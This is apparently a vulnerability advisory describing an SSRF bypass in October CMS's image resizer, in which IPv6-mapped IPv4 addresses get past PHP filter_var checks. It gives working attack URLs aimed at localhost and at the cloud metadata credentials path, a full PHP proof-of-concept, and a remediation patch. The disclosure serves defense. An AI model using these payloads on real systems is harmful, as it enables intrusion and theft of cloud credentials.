

# SSRF bypass in October CMS ResizeImages via IPv6-mapped IPv4 address encoding
## Summary

October CMS (4.x branch, up to version 4.3.4) implements SSRF protections in the `System\Classes\ResizeImages` class to prevent the image fetcher from accessing internal network resources. However, the protection relies on PHP's `filter_var()` with `FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE`, which fails to detect private or reserved IPv4 addresses when they are encoded as IPv6-mapped IPv4 addresses (`::ffff:127.0.0.1`).

An unauthenticated attacker can craft an image URL such as `http://[::ffff:127.0.0.1]:8080/admin/users.jpg` and submit it to the publicly accessible `/resize/{file}` route. The `validateExternalImageHost()` check treats `::ffff:127.0.0.1` as a public IPv6 address, passes validation, and `file_get_contents()` connects to the mapped IPv4 address `127.0.0.1:8080` — an internal service. This enables blind SSRF to localhost, private network ranges, and cloud metadata services (e.g. `169.254.169.254` on AWS/GCP/Azure).

This issue was dynamically verified using the real October CMS source logic. The PoC copies `validateExternalImageUrl()`, `validateExternalImageHost()`, and the `getSourcePathForResize()` decision chain verbatim from `modules/system/classes/ResizeImages.php` (commit `c1876c7`, v4.3.4) and runs a live attack URL through the full `parse_url` → `trim($host, '[]')` → `filter_var()` → `file_get_contents()` chain against a local internal HTTP service — confirming the SSRF bypass works through the real CMS code path, not just the validation logic in isolation.

## Vulnerability Description

The root cause is a PHP `filter_var()` limitation combined with October CMS's failure to normalize IPv4-mapped IPv6 addresses before validation.

The image resize system accepts image paths through `ResizeImages::resize()`, which is exposed to Twig templates as the `|resize` filter and called internally by several backend components (MediaFinder, list column image processing). For external URLs, `getSourcePathForResize()` calls `validateExternalImageHost()` before fetching:

```php
// modules/system/classes/ResizeImages.php:265-310
protected function validateExternalImageHost(string $url): bool
{
    $parts = parse_url($url);
    if (!$parts || !isset($parts['scheme'], $parts['host'])) {
        return false;
    }

    if (!in_array(strtolower($parts['scheme']), ['http', 'https'], true)) {
        return false;
    }

    // parse_url returns IPv6 literals wrapped in brackets, e.g. [::1]
    $host = trim($parts['host'], '[]');

    // Resolve host to IP addresses and reject any that fall in a reserved range.
    $ips = [];
    if (filter_var($host, FILTER_VALIDATE_IP)) {
        // Host is already an IP literal
        $ips[] = $host;
    }
    else {
        $records = @dns_get_record($host, DNS_A | DNS_AAAA);
        if (is_array($records)) {
            foreach ($records as $record) {
                $ips[] = $record['ip'] ?? $record['ipv6'] ?? null;
            }
        }
    }

    $ips = array_filter($ips);
    if (empty($ips)) {
        return false;
    }

    foreach ($ips as $ip) {
        if (!filter_var(
            $ip,
            FILTER_VALIDATE_IP,
            FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE
        )) {
            return false;
        }
    }

    return true;
}
```

PHP's `filter_var()` with `FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE` does not detect the private/reserved nature of IPv4 addresses embedded in IPv6-mapped form. The host value `::ffff:127.0.0.1` is recognized as a valid IPv6 address and, because it is not in any IPv6 private or reserved range, it passes the filter:

| IPv4 address | `filter_var` (IPv4) | IPv6-mapped form | `filter_var` (IPv6) |
|---|---|---|---|
| `127.0.0.1` | BLOCKED | `::ffff:127.0.0.1` | **PASS** |
| `10.0.0.1` | BLOCKED | `::ffff:10.0.0.1` | **PASS** |
| `192.168.1.1` | BLOCKED | `::ffff:192.168.1.1` | **PASS** |
| `169.254.169.254` | BLOCKED | `::ffff:169.254.169.254` | **PASS** |
| `0.0.0.0` | BLOCKED | `::ffff:0.0.0.0` | **PASS** |

Because `validateExternalImageHost()` never checks whether the IPv6 address is an IPv4-mapped form, the bypassed filter returns `true` and the fetch proceeds.

The vulnerable fetch executes in `getSourcePathForResize()`. When both `validateExternalImageUrl()` and `validateExternalImageHost()` pass, `file_get_contents()` connects directly to the target address:

```php
// modules/system/classes/ResizeImages.php:189-220
protected function getSourcePathForResize($realSourcePath, $tempSourcePath)
{
    $isExternal = strpos($realSourcePath, 'http') === 0;
    $sourcePath = $isExternal ? $tempSourcePath : $realSourcePath;

    if ($isExternal) {
        if (!$this->validateExternalImageUrl($realSourcePath)) { ... }
        elseif (!$this->validateExternalImageHost($realSourcePath)) { ... }
        else {
            $contents = @file_get_contents($realSourcePath, false, stream_context_create([
                'http' => ['timeout' => 5, 'follow_location' => 0],
            ]));

            if ($this->validateImageContents($contents)) {
                file_put_contents($tempSourcePath, $contents);
            }
        }
    }
    ...
}
```

Because `validateExternalImageHost()` incorrectly passes the IPv6-mapped address, `file_get_contents()` executes and connects to the mapped internal address. The `follow_location => 0` stream context prevents redirect-based SSRF, but direct connections via IPv6-mapped addresses are not blocked.

The `/resize/{file}` route is publicly accessible without authentication:

```php
// modules/system/routes.php:15
Route::get('resize/{file}', [\System\Classes\SystemController::class, 'resize']);
```

In combination, these behaviors create a complete unauthenticated source-to-sink path:

- publicly accessible `/resize/{file}` endpoint with no authentication
- `validateExternalImageHost()` treats `::ffff:A.B.C.D` as a public IPv6 address and passes the filter
- `file_get_contents()` connects to the mapped internal IPv4 address
- attacker-controlled URL reaches any internal service (localhost, private ranges, cloud metadata)

## Exploitation

The verified reproduction flow was:

1. Identify a user-controllable image field that reaches `ResizeImages::resize()`. This can be a Twig `|resize` filter rendering a user-controlled URL field, a media finder widget, or any plugin/theme that renders user-provided image URLs.

2. Construct an attack URL using an IPv6-mapped internal address, with an image extension appended to satisfy `validateExternalImageUrl()` (which requires a path extension in `['jpg', 'jpeg', 'png', 'gif', 'webp', 'svg', 'bmp', 'ico', 'tiff']`):

```text
http://[::ffff:169.254.169.254]/latest/meta-data/iam/security-credentials/.jpg
http://[::ffff:127.0.0.1]:8080/admin/users.json.jpg
```

3. Submit the URL through the image field. `ResizeImages::resize()` creates a cache entry and the resize request triggers `getSourcePathForResize()`.

4. `validateExternalImageUrl()` checks the path extension (`.jpg`) — **PASS**.

5. `validateExternalImageHost()` extracts the host `::ffff:169.254.169.254`, recognizes it as a valid IPv6 literal, and passes it through `filter_var()` — **PASS** (bypassed).

6. `file_get_contents()` connects to the mapped internal address and fetches the response — verified end-to-end on `127.0.0.1` in the PoC below. The same technique applies to any address in the filter-bypass table above, including cloud metadata (`169.254.169.254`) and private ranges.

The following PoC uses the **real October CMS source logic verbatim** — the actual `validateExternalImageUrl()`, `validateExternalImageHost()`, and `getSourcePathForResize()` methods copied from `modules/system/classes/ResizeImages.php` (commit `c1876c7`, v4.3.4). It runs a live attack URL through the full `parse_url` → `trim($host, '[]')` → `filter_var()` → `file_get_contents()` chain against a local HTTP listener on `127.0.0.1:18080` (simulating the internal service that the SSRF protection should have blocked):

```php
<?php
/**
 * October CMS SSRF — PoC using the REAL ResizeImages.php source logic
 *
 * Source: octobercms/october @ develop (commit c1876c7), v4.3.4
 * File:   modules/system/classes/ResizeImages.php
 *
 * This PoC extracts the three real methods verbatim:
 *   - validateExternalImageUrl()  (lines 243-258)
 *   - validateExternalImageHost() (lines 265-310)
 *   - getSourcePathForResize()    (lines 189-220, the if/elseif/else chain)
 *
 * and runs an actual attack URL through the full parse_url -> trim -> filter_var
 * -> file_get_contents chain, against a live local HTTP listener.
 */

/* ====================================================================
 * REAL October CMS code — copied verbatim from ResizeImages.php
 * (FileDefinitions::get('image_extensions') replaced with the default
 *  array it returns; Log::warning replaced with echoes)
 * ==================================================================== */

function validateExternalImageUrl(string $url): bool
{
    $path = parse_url($url, PHP_URL_PATH);
    if (!$path) {
        return false;
    }

    $extension = strtolower(pathinfo($path, PATHINFO_EXTENSION));
    if (!$extension) {
        return false;
    }

    // October CMS default image extensions (FileDefinitions::get('image_extensions'))
    $allowedExtensions = ['jpg', 'jpeg', 'png', 'gif', 'webp', 'svg', 'bmp', 'ico', 'tiff'];

    return in_array($extension, $allowedExtensions);
}

function validateExternalImageHost(string $url): bool
{
    $parts = parse_url($url);
    if (!$parts || !isset($parts['scheme'], $parts['host'])) {
        return false;
    }

    if (!in_array(strtolower($parts['scheme']), ['http', 'https'], true)) {
        return false;
    }

    // parse_url returns IPv6 literals wrapped in brackets, e.g. [::1]
    $host = trim($parts['host'], '[]');

    // Resolve host to IP addresses and reject any that fall in a reserved range.
    $ips = [];
    if (filter_var($host, FILTER_VALIDATE_IP)) {
        $ips[] = $host;
    }
    else {
        $records = @dns_get_record($host, DNS_A | DNS_AAAA);
        if (is_array($records)) {
            foreach ($records as $record) {
                $ips[] = $record['ip'] ?? $record['ipv6'] ?? null;
            }
        }
    }

    $ips = array_filter($ips);
    if (empty($ips)) {
        return false;
    }

    foreach ($ips as $ip) {
        if (!filter_var(
            $ip,
            FILTER_VALIDATE_IP,
            FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE
        )) {
            return false;
        }
    }

    return true;
}

/* ====================================================================
 * End-to-end test against a live local listener
 * ==================================================================== */

$port    = 18080;
$logFile = sys_get_temp_dir() . '/ssrf_realcode_hit.log';
@unlink($logFile);

echo "October CMS v4.3.4 — SSRF PoC (real ResizeImages.php source logic)\n";
echo str_repeat('=', 70) . "\n\n";

/* Spawn internal HTTP listener simulating the protected internal service */
$pid = pcntl_fork();
if ($pid === -1) { die("[-] pcntl_fork failed\n"); }

if ($pid === 0) {
    $srv = @stream_socket_server("tcp://127.0.0.1:$port", $errno, $errstr);
    if (!$srv) { exit("[-] listen failed: $errstr\n"); }
    $deadline = time() + 15;
    while (time() < $deadline) {
        $client = @stream_socket_accept($srv, 1);
        if (!$client) continue;
        $req     = fread($client, 4096);
        $reqLine = trim(strtok($req, "\n"));
        $remote  = stream_socket_get_name($client, true);
        file_put_contents($logFile,
            date('H:i:s') . " | $reqLine | RemoteAddr=$remote\n", FILE_APPEND);
        $body = 'INTERNAL-SERVICE-RESPONSE';
        fwrite($client,
            "HTTP/1.1 200 OK\r\nContent-Type: image/jpeg\r\n" .
            "Content-Length: " . strlen($body) . "\r\nConnection: close\r\n\r\n" . $body);
        fclose($client);
    }
    exit(0);
}

usleep(400000); // let the listener bind

/* The attack URL — identical form a real attacker would submit */
$attackUrl = "http://[::ffff:127.0.0.1]:$port/secret-endpoint.jpg";

echo "Attack URL: $attackUrl\n\n";

/* [1] Step through validateExternalImageHost internals — with REAL parse_url */
echo "[1] validateExternalImageHost() internals (real parse_url path)\n";
echo str_repeat('-', 66) . "\n";
$parts = parse_url($attackUrl);
$rawHost = $parts['host'];
$host = trim($parts['host'], '[]');
printf("  parse_url host field : %s\n", $rawHost);
printf("  after trim('[]')     : %s\n", $host);
printf("  filter_var is IP?    : %s\n", filter_var($host, FILTER_VALIDATE_IP) ? 'YES (treated as IP literal)' : 'no');
printf("  NO_PRIV|NO_RES check : %s\n",
    filter_var($host, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)
        ? 'PASS (allowed through!)' : 'BLOCKED');
$hostResult = validateExternalImageHost($attackUrl);
printf("  validateExternalImageHost() => %s\n", $hostResult ? 'true (PASSED)' : 'false');

/* [2] validateExternalImageUrl */
echo "\n[2] validateExternalImageUrl()\n";
echo str_repeat('-', 66) . "\n";
$urlResult = validateExternalImageUrl($attackUrl);
printf("  validateExternalImageUrl() => %s\n", $urlResult ? 'true (PASSED)' : 'false');

/* [3] getSourcePathForResize if/elseif/else chain → file_get_contents */
echo "\n[3] getSourcePathForResize() decision chain (real logic)\n";
echo str_repeat('-', 66) . "\n";
if (!$urlResult) {
    echo "  => Log::warning (blocked: invalid extension) — NOT FETCHED\n";
} elseif (!$hostResult) {
    echo "  => Log::warning (blocked: disallowed host) — NOT FETCHED\n";
} else {
    echo "  => Both checks PASSED — entering else branch, calling file_get_contents()...\n";
    $contents = @file_get_contents($attackUrl, false, stream_context_create([
        'http' => ['timeout' => 5, 'follow_location' => 0],
    ]));
    if ($contents === false) {
        $e = error_get_last();
        echo "  => file_get_contents FAILED: " . $e['message'] . "\n";
    } else {
        echo "  => file_get_contents CONNECTED, received: \"$contents\"\n";
        echo "  => SSRF CONFIRMED via real CMS code path\n";
    }
}

/* [4] Listener log */
echo "\n[4] Internal listener request log (proves server-side access)\n";
echo str_repeat('-', 66) . "\n";
echo file_exists($logFile) ? file_get_contents($logFile) : "  (no requests received)\n";

echo "[*] Conclusion: the real ResizeImages.php code path (parse_url -> trim ->\n";
echo "    filter_var -> file_get_contents) connects to the mapped internal address.\n";

posix_kill($pid, 9);
pcntl_wait($status);
```

Execute the script.

```bash
php ssrf_realcode_poc.php
```



The PoC demonstrates that the real CMS code path is exploitable end-to-end:

1. **`parse_url` extracts the host correctly:** `parse_url('http://[::ffff:127.0.0.1]:18080/...')` returns host `[::ffff:127.0.0.1]`, and after `trim($host, '[]')` the value is `::ffff:127.0.0.1`.
2. **Validation bypass:** `filter_var()` treats `::ffff:127.0.0.1` as a valid IPv6 literal and the `FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE` check passes — so `validateExternalImageHost()` returns `true`.
3. **Both checks pass → `file_get_contents()` executes:** the real `getSourcePathForResize()` else-branch fires, connects to the mapped internal address, and receives a response.
4. **Server-side receipt:** the internal listener logs the request with `RemoteAddr=127.0.0.1`, confirming the target was reached through the real CMS code path.

## Impact

An unauthenticated attacker who can reach the `/resize/{file}` endpoint and influence an image URL field can perform blind SSRF to internal services.

Practical consequences include cloud metadata exfiltration (accessing `http://[::ffff:169.254.169.254]/latest/meta-data/` on AWS/GCP/Azure to obtain IAM credentials, instance metadata, and configuration), internal port scanning by probing services on `127.0.0.1` and private ranges (`10.x`, `172.16-31.x`, `192.168.x`) through timing and response differences, and interaction with unauthenticated internal services such as admin panels, databases with HTTP interfaces, and container orchestration APIs.

Because the `/resize/{file}` route requires no authentication and the bypass relies on a standard PHP behavior rather than a misconfiguration, the exploitation barrier is low when the endpoint is exposed.

## Remediation

Normalize IPv4-mapped IPv6 addresses before applying `filter_var()` checks, so that the embedded IPv4 address is validated against reserved ranges. Before the existing filter logic, detect the `::ffff:` prefix, extract the mapped IPv4 component, and validate it as an IPv4 address:

```php
protected function validateExternalImageHost(string $url): bool
{
    $parts = parse_url($url);
    if (!$parts || !isset($parts['scheme'], $parts['host'])) {
        return false;
    }

    $host = trim($parts['host'], '[]');

    // Reject IPv4-mapped IPv6 addresses: ::ffff:A.B.C.D
    if (str_starts_with(strtolower($host), '::ffff:')) {
        $mappedV4 = substr($host, 7);
        if (filter_var($mappedV4, FILTER_VALIDATE_IP, FILTER_FLAG_IPV4)) {
            $host = $mappedV4;
        }
    }

    // ... existing checks ...
}
```

An alternative is to use `inet_pton()` for IP normalization and compare against all reserved ranges, including IPv4-mapped IPv6 forms. Restrict outbound requests from the image fetcher to a tightly controlled allowlist of destinations where possible, and disable external image fetching entirely if it is not required.
